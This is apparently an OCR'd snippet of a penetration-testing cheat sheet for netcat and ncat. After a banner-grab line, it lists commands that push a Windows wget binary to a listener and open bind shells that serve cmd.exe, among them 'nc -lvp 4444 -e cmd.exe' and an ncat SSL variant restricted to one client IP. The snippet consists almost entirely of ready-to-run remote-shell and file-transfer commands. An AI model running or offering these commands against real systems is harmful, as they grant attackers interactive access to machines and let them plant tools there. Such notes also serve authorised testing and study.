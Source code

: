 Netcat  
nc -nv TargetIP port  #connect to port,client/banner grab  
nc -nlvp 4444  #start netcat server  

nc -nv TargetIP 4444 </usr/share/windows-binaries/wget.exe #send file to listening netcat server  
nc -nlvp 4444 > incoming.exe #receive file from client pipe into exe  

nc -lvp 4444 -e cmd.exe #bind shell server  
nc -vn TargetIP 4444 #bind shell client  

Ncat  
ncat -lvp 4444 -e cmd.exe --allow ClientIP --ssl #ncat server bind shell only to clientip with ssl encryption  
ncat -v ServerIP 4444 --ssl #client connect bind 
